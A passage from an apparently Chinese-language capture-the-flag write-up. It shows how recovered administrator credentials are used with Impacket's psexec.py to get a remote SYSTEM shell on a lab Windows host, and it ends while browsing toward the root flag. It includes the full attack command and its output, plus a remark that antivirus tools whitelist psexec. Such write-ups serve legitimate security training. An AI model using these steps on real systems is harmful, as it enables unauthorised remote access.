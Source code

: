 里面记录了管理员账号与密码，kali尝试使用psexec.py脚本连接。psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开机3389端口，只需要对方开启admin$共享(该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于psexec是windows提供的工具，所以杀毒软件会将其添加到白名单中。

kali自带`psexec.py`，在下面这个路径中


![image-20221129104923255](assets/image-20221129104923255.png)

![image-20221129105015576](assets/image-20221129105015576.png)

之后进去之后找一找发现Administrator的桌面上有一个root.txt，要找的root用户flag就在里面

```powershell
┌──(root㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─# python3 psexec.py administrator@10.129.6.206
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.6.206.....
[*] Found writable share ADMIN$
[*] Uploading file OdsHoKAi.exe
[*] Opening SVCManager on 10.129.6.206.....
[*] Creating service NNTk on 10.129.6.206.....
[*] Starting service NNTk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd \Users 
 
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users

01/19/2020  03:10 PM    <DIR>          .
01/19/2020  03:10 PM    <DIR>          ..
01/19/2020  10:39 PM    <DIR>          Administrator
01/19/2020  10:39 PM    <DIR>          Public
01/20/2020  05:01 AM    <DIR>          sql_svc
               0 File(s)              0 bytes
               5 Dir(s)  10,431,676,416 bytes free

C:\Users> cd \Administrator
The system cannot find the path specified.
 
C:\Users> cd Administrator
 
C:\Users\Administrator> cd Destop 
```